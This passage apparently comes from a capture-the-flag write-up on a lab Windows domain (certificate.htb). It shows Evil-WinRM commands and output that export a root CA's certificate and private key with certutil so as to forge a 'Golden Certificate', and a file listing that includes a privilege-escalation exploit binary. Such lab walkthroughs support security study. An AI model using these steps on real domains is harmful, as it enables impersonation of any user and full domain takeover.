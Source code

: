 ```cmd
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Provider = Microsoft Software Key Storage Provider
Missing stored keyset
CertUtil: -store command completed successfully.
```

We `exported` the `certificate` of the `Certificate-LTD-CA` in order to forge a `Golden Certificate` to `authenticate` with.

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -exportPFX My 75b2f4bbf31f108945147b466131bdca certificate.pfx
My "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file certificate.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.
```

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> dir


    Directory: C:\Users\Ryan.K\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/1/2025   2:24 PM           2675 certificate.pfx
-a----         6/1/2025   1:47 PM          12288 SeManageVolumeExploit.exe
```
